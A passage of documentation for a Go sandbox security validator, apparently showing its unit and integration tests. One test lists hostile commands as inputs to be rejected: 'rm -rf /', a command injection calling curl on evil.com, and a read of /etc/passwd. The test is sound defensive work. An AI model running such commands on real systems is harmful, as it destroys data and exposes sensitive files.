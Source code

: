```go
    assert.Equal(t, "CRITICAL", report.RiskLevel)
    assert.True(t, report.RiskScore >= 7.0)
}
```

#### Command Security Test
```go
func TestCommandSecurity(t *testing.T) {
    validator := NewSecurityValidator(zerolog.New(os.Stdout))
    
    testCases := []struct {
        command  string
        expected bool
    }{
        {"ls -la", true},                    // Safe command
        {"echo hello", true},               // Safe command
        {"rm -rf /", false},                // Dangerous command
        {"$(curl evil.com)", false},        // Command injection
        {"cat /etc/passwd", false},         // Sensitive file access
    }
    
    for _, tc := range testCases {
        result := validator.isCommandSafe(tc.command)
        assert.Equal(t, tc.expected, result, "Command: %s", tc.command)
    }
}
```

### Integration Testing

```go
func TestSecurityValidationIntegration(t *testing.T) {
    validator := NewSecurityValidator(zerolog.New(os.Stdout))
    
    // Test development configuration
    devOptions := AdvancedSandboxOptions{
        User:         "1000",
        Group:        "1000", 
        Capabilities: []string{},
        SecurityPolicy: SecurityPolicy{
            AllowNetworking: false,
            RequireNonRoot:  true,
        },
    }
    
    report, err := validator.ValidateSecurity(context.Background(), "dev-session", devOptions)
    
    assert.NoError(t, err)
    assert.NotNil(t, report)
    assert.Contains(t, []string{"LOW", "MEDIUM"}, report.RiskLevel)
    assert.True(t, len(report.ActiveControls) > 0)
    assert.True(t, len(report.Recommendations) >= 0)
}
```
